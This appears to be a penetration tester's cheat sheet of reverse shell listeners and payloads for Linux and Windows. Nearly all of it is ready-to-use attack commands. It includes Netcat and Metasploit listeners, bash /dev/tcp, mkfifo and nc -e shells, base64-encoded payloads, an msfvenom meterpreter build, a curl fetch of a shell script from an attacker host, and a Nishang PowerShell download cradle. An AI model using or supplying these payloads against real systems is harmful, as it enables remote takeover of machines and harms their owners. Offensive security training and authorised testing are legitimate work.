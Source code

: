 # Linux

## Listeners

Netcat
`nc -lvnp port`

Meterpreter Linux x64 Reverse TCP Staged
```
msfconsole
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Note: Sometimes need to sh or bash -c 'revshell' for these to work.

sh -i
`sh -i >& /dev/tcp/ipaddress/port 0>&1`

nc mkfifo
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ipaddress port >/tmp/f`

nc -e
`nc ipaddress port -e sh`

Base64 Revshell Linux
```
echo -n 'payload' | base64 > payload.b64 # Can add spaces to eliminate plus signs

echo payload.b64 | base64 -d | bash
```

Curl (still need to chmod and execute)
`curl attacker:port/shell.sh -o /remote/shell.sh`

Meterpreter Linux x64 Reverse TCP Staged
`msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f elf -o shell`

# Windows

Netcat
`nc.exe -e cmd.exe ipaddress port`

Nishang PowerShell Revshell (GitHub linked in Tools document)
```
echo -n "IEX(new-object net.webclient).downloadstring('http://attacker/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0 > payload.b64

# iconv converts payload to encoding used by Windows

echo 'Invoke-PowerShellTcp -Reverse -IPAddress ipaddress -Port port' >> Invoke-PowerShellTcp.ps1

start listener
start webserver

powershell -enc payload.b64
```


